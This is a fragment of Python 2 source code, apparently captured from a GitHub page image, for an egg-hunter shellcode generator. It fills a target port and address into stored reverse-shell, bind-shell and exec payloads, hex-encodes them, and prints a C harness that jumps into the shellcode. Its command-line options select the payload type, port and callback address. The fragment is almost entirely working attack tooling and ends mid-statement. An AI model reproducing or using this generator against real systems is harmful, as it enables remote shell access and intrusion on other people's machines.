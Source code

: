 ```python
	shellcode_o = shellcode.replace("PORT", port).replace("ADDRESS", address)
        sc = ""
        for c in bytearray(shellcode_o):
                sc += "\\x%02x" % c
        skeleton(egg, sc)


def bindPayload(egg, port):
	port = port2hex(int(port))
	port_check = [port.encode('hex')[i:i+2] for i in range(0, len(port.encode('hex')), 2)]
	nullBytes(port)
        shellcode = shellcode_l["bind"]
	shellcode_o = shellcode.replace("PORT", port)
        sc = ""
        for c in bytearray(shellcode_o):
                sc += "\\x%02x" % c
        skeleton(egg, sc)



def execPayload(egg):
	shellcode = shellcode_l["exec"]
	sc = ""
	for c in bytearray(shellcode):
		sc += "\\x%02x" % c
	skeleton(egg, sc)


def skeleton(egg, shellcode):
	shellcode_c = '#include<stdio.h>\n\
#include<string.h>\n\
#define EGG "%s"\n\
unsigned char egg_hunter[] = "%s";\n\
unsigned char code[] = \n\
EGG\n\
EGG\n\
"%s";\n\
main(){\n\
printf("Egg hunter Length: %%d\\n", strlen(egg_hunter));\n\
printf("Shellcode Length: %%d\\n", strlen(code));\n\
int (*ret)() = (int(*)())code;\n\
ret();\n\
}'%(getEgg(egg),eggHunter(egg),shellcode)
        print shellcode_c



def opciones():
        parser = OptionParser("usage: %prog [options] \nExample: ./%prog -e 50905090 -p exec")
        parser.add_option("-e", "--egghunter",
                  action="store", type="string", dest="egghunter", help="Egghunter pattern")
        parser.add_option("-p", "--payload",
                  action="store", type="string", dest="payload", help="Payload (exec, bind, reverse)")
        parser.add_option("-x", "--port",
                  action="store", type="string", dest="port", help="Port (bind or reverse payload)")
        parser.add_option("-a", "--address",
                  action="store", type="string", dest="address", help="Address (reverse payload)")
        (options, args) = parser.parse_args()
        if (len(sys.argv) == 1):
            parser.print_help()
        elif (options.egghunter is not None) and (options.payload is not None):
```